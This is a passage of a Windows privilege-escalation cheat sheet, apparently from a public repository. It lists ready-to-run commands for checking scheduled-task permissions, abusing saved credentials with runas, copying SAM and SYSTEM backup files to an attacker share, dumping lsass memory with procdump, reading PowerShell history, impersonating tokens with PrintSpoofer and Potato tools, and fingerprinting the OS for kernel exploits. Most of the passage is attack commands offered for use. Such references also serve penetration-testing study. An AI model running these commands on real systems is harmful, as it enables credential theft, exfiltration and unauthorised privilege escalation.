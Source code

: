 ### Check Task Permissions
```cmd
# Check if you can modify scheduled task files
icacls C:\Windows\System32\Tasks\*
```

## Passwords and Tokens

### Credential Manager
```cmd
cmdkey /list
runas /savecred /user:administrator cmd.exe
```

### SAM and SYSTEM Files
```cmd
# If you have access to backup SAM files
copy C:\Windows\Repair\SAM \\attacker\share\
copy C:\Windows\Repair\SYSTEM \\attacker\share\
```

### Memory Dumps
```cmd
# Look for credentials in memory
procdump.exe -ma lsass.exe lsass.dmp
```

### PowerShell History
```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Token Impersonation

### SeImpersonatePrivilege
If you have SeImpersonatePrivilege, use tools like:

- **JuicyPotato** (Windows Server 2016 and earlier)
- **RoguePotato** (Windows 10 / Server 2019)
- **PrintSpoofer** (All Windows versions)

```cmd
# Example with PrintSpoofer
PrintSpoofer.exe -i -c cmd
```

## Kernel Exploits

### Check Windows Version
```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
